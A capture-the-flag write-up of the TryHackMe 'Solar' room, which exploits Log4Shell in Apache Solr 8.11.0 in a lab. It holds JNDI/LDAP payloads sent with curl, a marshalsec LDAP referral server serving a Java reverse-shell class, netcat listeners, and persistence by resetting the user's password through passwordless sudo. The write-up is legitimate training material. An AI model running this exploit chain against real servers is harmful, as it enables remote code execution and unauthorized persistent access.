



# Tryhackme - [Solar, Exploiting log4j](https://tryhackme.com/room/solar) 
Written on 13/03/2022


## Description

This TryHackMe room showcases how to detect and exploit the Log4Shell vulnerability (CVE-2021-44228)

The target virtual machine includes software that utilizes this vulnerable log4j package, offering you a playground to explore the vulnerability.


## Nmap

I ran an nmap scan. Here are the results:

```
Nmap scan report for 10.10.152.218
Host is up, received echo-reply ttl 63 (0.053s latency).
Scanned at 2022-03-13 09:48:02 GMT for 46s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:35:e1:4f:4e:87:45:9e:5f:2c:97:e0:da:a9:df:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTRQx4ZmXMByEs6dg4VTz+UtM9X9Ljxt6SU3oceqRUlV+ohx56xdD0ZPbvD0IcYwUrrqcruMG0xxgRxWuzV+FQAJVQe76ED966+lwrwAnUsVFQ5apw3N+WKnD53eldUZRq7/2nGQQizrefY7UjAGX/EZonSVOWZyhVyONu2VBBwg0B0yA3UBZV+yg+jGsrZ9ETEmfNbQRkbodEAwoZrGQ87UEdTkfj+5TGmfzqgukmBvvVV7KoXgSQIZNkqRmkAVKKXeEfydnOR37KMglBUXIR/50jkIswxWbNk2OtS6fz6UiPeEY39f4f0gwLx/HwUyel9yzH4dkDb+LBS6X/X9b9
|   256 b2:fd:9b:75:1c:9e:80:19:5d:13:4e:8d:a0:83:7b:f9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAqCgW5Mlx2VpC61acc0G4VMZUAauQDoK5xIzdHzdDLPXt0GqsoIw1fuwTSSzSy8RFmGU5PNHiWn0egoUwlXdc4=
|   256 75:20:0b:43:14:a9:8a:49:1a:d9:29:33:e1:b9:1a:b6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFZ/jrfDX1aK1I0A/sLRVb2qoCF9xHWbVW+gBCV8dSmg
111/tcp  open  rpcbind syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8983/tcp open  http    syn-ack ttl 63 Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.152.218:8983/solr/
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

So there are 3 open ports:
- 22 -> SSH
- 111 -> rpcbind
- 8983 -> Apach Solr web server

> What service is running on port 8983? (Just the name of the software)

Answer:

> Apache Solr

## Logs

Heading to the webserver in the browser, we see an admin panel for Apache Solr 8.11.0:



This target machine is running Apache Solr 8.11.0, one example of software that is known to include this vulnerable **log4j** package. For the sake of showcasing this vulnerability, the application runs on Java 1.8.0_181.

This instance of Apache Solr is provisioned with no data whatsoever. It is a flat, vanilla, and absolutely minimum installation -- yet at its core it is still vulnerable to this CVE-2021-44228.

So let's look around the application

> What is the `-Dsolr.log.dir` argument set to, displayed on the front page
 
On the front page, in the JVM section, at args, we see `-Dsolr.log.dir=/var/solr/logs`

Answer:

> /var/solr/logs

The room gives us a zip file containing multiple example log files

> One file has a significant number of `INFO` entries showing repeated requests to one specific URL endpoint. Which file includes contains this repeated entry?

Inspecting the logs, we see that the file `solr.log` has a lot of INFO entries that look like this:

```
2021-12-13 04:01:56.184 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:56.384 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:56.607 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:56.814 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:56.997 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:57.232 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:57.430 INFO  (qtp1083962448-17) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:57.681 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:57.896 INFO  (qtp1083962448-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:58.106 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 04:01:58.351 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
```

Answer: 

> solr.log

> What "path" or URL endpoint is indicated in these repeated entries?

Answer:

> /admin/cores

> Viewing these log entries, what field name indicates some data entrypoint that you as a user could control? (Just the field name)

Answer:

> params

The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact _executed_ just as it is entered into log files.

Some examples of this syntax are:
-   `${sys:os.name}`
-   `${sys:user.name}`
-   `${log4j:configParentLocation}`
-   `${ENV:PATH}`
-   `${ENV:HOSTNAME}`
-   `${java:version}`

You may already know the general payload to abuse this log4j vulnerability. The format of the usual syntax that takes advantage of this looks like so:

`${jndi:ldap://ATTACKERCONTROLLEDHOST}`

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. 

Notice the `ldap://` schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol.

What we should understand now is that because the `params` field that we as a user can supply to `/solr/admin/cores` is logged, then we can send a payload that, once logged, will cause Log4j to perform a JNDI lookup, connecting to a LDAP server we will set up(**ATTACKERCONTROLLEDHOST**), 

Other locations we might be able to supply the JNDI syntax:
- Input boxes, user and password login forms, data entry points within applications
- HTTP headers such as `**User-Agent**`, `**X-Forwarded-For**`, or other customizable headers
- **Any place for user-supplied data**


## Proof of concept

Let's try to make the server connect to us.

Let's start a simple netcat listener on our local machine

```shell
sudo nc -nlvp 9999
```

Then, we should send a request to /solr/admin/cores that has 

```
curl 'http://10.10.152.218:8983/solr/admin/cores?param=$\{jndi:ldap://10.9.0.233:9999\}'
```

And we have a connection:




## Exploitation
Because the server made an LDAP request, netcat only showed some non-printable characters. To make the exploit work, we will need a listener that can understand LDAP requests.

The room gives one solution for this, which is using an **LDAP Referral Server**. This server would basically receive the LDAP request, and then send it to a http server that we host, then return the resource hosted on the http server.

1.  `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server
2.  LDAP Referral Server springboards the request to a secondary `http://attackerserver/resource`
3.  The victim retrieves and executes the code present in `http://attackerserver/resource`

To host a quick http server, python can be used:

```shell
python -m http.server
```

Then we need an LDAP Refferal Server. I followed the THM room's instructions on installing [marshalsec]([https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)) 

After building marshalsec, we can run it with:

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.0.233:8000/#Exploit"
```

Adjust the IP address for your attacking machine as needed. Note that we will supplied the HTTP port listening on 8000.

> What is the output of running this command? (You should leave this terminal window open as it will be actively awaiting connections)

Answer:

> Listening on 0.0.0.0:1389

Our http server will need to serve a Java class in order for us to achieve RCE. A simple java reverse shell is given by the room. We compile it(`javac Exploit.java -source 8 -target 8`) and we have our exploit, it should have a .class extension

We can now start our simple python http server(this has a default port of 8000, which we also configured when starting the LDAP Referral Server):

```
python -m http.server 
```

Next, we need a netcat listener to catch the reverse shell.

```shell
nc -nlvp 9999
```

Now, we can send a malicious request to trigger the exploit

```shell
curl 'http://10.10.152.218:8983/solr/admin/cores?payload=$\{jndi:ldap://10.9.0.233:1389/Exploit\}'
```

And we have our shell!




## Persistence
We saw SSH was on this server, we can try to set up our own user for ssh

> What user are you?

Answer:

> solr

I then stabilised my shell using the usual steps(they're also mentioned in the room)

By checking `sudo -l` to see what we can excute as root, we see this:

```
User solr may run the following commands on solar:
    (ALL) NOPASSWD: ALL
```

Which means we can execute any command as root without the password. Which is great

Next, we can establish persistence on the machine by simply changing the password of the `solr` user. Then, we can ssh into the machine at any time

```
sudo passwd solr
```

Then, on our machine:

```
ssh solr@SERVER-IP
```


## Conclusion
This room was great. I got a better understanding of how the log4shell vulnerability works and is exploited by actually performing it.


